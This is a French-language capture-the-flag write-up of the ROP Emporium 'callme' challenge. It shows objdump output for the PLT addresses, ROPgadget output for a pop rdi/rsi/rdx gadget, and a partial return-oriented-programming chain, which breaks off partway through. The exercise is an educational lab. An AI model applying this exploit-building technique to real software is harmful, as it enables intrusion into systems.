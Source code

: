 ## callme

Dans ce challenge nous devons appeler les fonctions `callme_one()` , `callme_two()` et `callme_three()` dans l'ordre exact. 
Ces fonctions doivent être appelé avec le paramètre 1,2,3 (par exemple callme_one(1,2,3)..).

Pour cela, nous allons devoir utiliser les registres suivants pour passer les paramètres : 
- RDI
- RSI
- RDX

Nous allons ensuite appeler les fonctions concernées : 

~~~bash
root@kali:~/rop_emporium/callme# objdump callme -d | grep ".*@plt"
  4017d0:       e8 bb 00 00 00          callq  401890 <__gmon_start__@plt>
0x4017f0 <puts@plt>:
0x401800 <printf@plt>:
0x401810 <callme_three@plt>:
0x401820 <memset@plt>:
0x401830 <__libc_start_main@plt>:
0x401840 <fgets@plt>:
0x401850 <callme_one@plt>:
0x401860 <setvbuf@plt>:
0x401870 <callme_two@plt>:
0x401880 <exit@plt>:
0x401890 <__gmon_start__@plt>:
~~~

Elles se situent à ces adresses : 
- `0x401850 <callme_one@plt>`
- `0x401870 <callme_two@plt>`
- `0x401810 <callme_three@plt>`

Nous devons également trouver la gadget pointant vers des `pop` :

~~~bash
root@kali:~/rop_emporium/callme# ROPgadget --binary callme | grep "rsi"
0x401aae : add byte ptr [rax], al ; pop rdi ; pop rsi ; pop rdx ; ret
0x401aad : add byte ptr [rax], r8b ; pop rdi ; pop rsi ; pop rdx ; ret
0x401aab : nop dword ptr [rax + rax] ; pop rdi ; pop rsi ; pop rdx ; ret
0x401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
0x401b21 : pop rsi ; pop r15 ; ret
0x401ab1 : pop rsi ; pop rdx ; ret
0x401987 : sal byte ptr [rcx + rsi*8 + 0x55], 0x48 ; mov ebp, esp ; call rax
~~~
Nous avons ici un gadget qui fera le job pour tous les paramètres : `0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret`

Nous allons donc faire comme suis :

| 0x401ab0 : pop rdi ; pop rsi ; pop rdx ; ret |
| ------------------------------------------------- |
| 0x01                                              |
| 0x02                                              |
| 0x03                                              |
| 0x401850 <callme_one@plt>                         |
| 0x401ab0 : pop rdi ; pop rsi ; pop rdx ; ret      |
| 0x01                                              |
| 0x02                                              |
| 0x03                                              |